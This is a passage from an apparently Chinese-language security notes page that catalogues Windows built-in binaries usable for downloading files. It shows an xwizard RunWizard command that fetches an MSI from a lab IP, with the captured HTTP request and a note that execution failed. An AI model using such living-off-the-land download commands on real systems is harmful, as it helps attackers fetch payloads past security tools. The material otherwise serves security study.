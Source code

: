 *如果这是微软及时封堵的结果, 那可利用的价值和情况就不大了. 目前先挖个坑(无底坑), 后面遇到`4.18.2008.9`版本的`windows defender`再做测试*

![Windows_defender-MpCmdRun](assets/img/Windows_defender_MpCmdRun.png)

### 9. Xwizard

```powershell
C:\Users\test\Desktop>xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /z http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Xwizard.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note***
*虽然可以下载成功, 但是执行的时候, 会报 `客户端配置文件无效`, 挖坑*

### 10. Cscript
